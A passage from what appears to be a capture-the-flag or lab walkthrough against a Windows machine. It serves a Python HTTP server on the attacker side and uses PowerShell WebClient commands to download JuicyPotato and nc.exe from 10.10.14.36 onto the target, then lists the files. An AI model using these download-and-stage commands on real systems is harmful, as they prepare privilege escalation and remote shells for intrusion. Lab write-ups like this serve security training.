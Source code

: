 ```
python -m SimpleHTTPServer 80
```

This will setup an HTTP server on port 80. Now we can go and download the file from the Windows host with the following commands:

```
c:\Windows\Temp>powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.36/JuicyPotatox86.exe', 'JuicyPotato.exe')
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.36/JuicyPotato.exe', 'JuicyPotatox86.exe')


c:\Windows\Temp>powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.36/nc.exe', 'nc.exe')               
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.36/nc.exe', 'nc.exe')

```

```
c:\Windows\Temp>dir   
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Windows\Temp

28/05/2021  08:33     <DIR>          .
28/05/2021  08:33     <DIR>          ..
17/03/2017  02:10                  0 DMI20C8.tmp
28/12/2017  02:44                  0 DMI4069.tmp
13/12/2020  01:22                140 fwtsqmfile00.sqm
13/12/2020  01:59                140 fwtsqmfile01.sqm
28/05/2021  08:33            347.648 JuicyPotatox86.exe
14/12/2020  03:36              4.822 MpCmdRun.log
17/03/2017  05:32              5.194 MpSigStub.log
28/05/2021  08:33             59.392 nc.exe
18/03/2017  02:04     <DIR>          rad11098.tmp
18/03/2017  02:06     <DIR>          rad18A66.tmp
18/03/2017  02:06     <DIR>          rad3ED74.tmp
18/03/2017  02:06     <DIR>          rad5167A.tmp
18/03/2017  02:02     <DIR>          rad578E0.tmp
18/03/2017  02:02     <DIR>          rad87630.tmp
18/03/2017  02:07     <DIR>          radB60EF.tmp
18/03/2017  02:02     <DIR>          radB7E46.tmp
18/03/2017  01:58     <DIR>          radC91EC.tmp
18/03/2017  02:02     <DIR>          radCC0AF.tmp
18/03/2017  02:00     <DIR>          radCFF96.tmp
28/05/2021  08:31                 11 test.txt
17/03/2017  02:12            180.224 TS_91C4.tmp
17/03/2017  02:12            196.608 TS_952F.tmp
17/03/2017  02:12            360.448 TS_95BC.tmp
17/03/2017  02:12            638.976 TS_96C6.tmp
17/03/2017  02:12             98.304 TS_989B.tmp
17/03/2017  02:12             98.304 TS_9909.tmp
17/03/2017  02:12            409.600 TS_99A6.tmp
17/03/2017  02:12            180.224 TS_A0E8.tmp
17/03/2017  02:12            114.688 TS_A57B.tmp
10/12/2020  08:54         23.210.428 vminst.log
10/12/2020  09:00     <DIR>          vmware-SYSTEM
28/05/2021  07:39            113.357 vmware-vmsvc.log
14/01/2021  01:34             37.310 vmware-vmusr.log
28/05/2021  07:39              1.598 vmware-vmvss.log
              22 File(s)     26.057.416 bytes
              14 Dir(s)  22.274.678.784 bytes free
```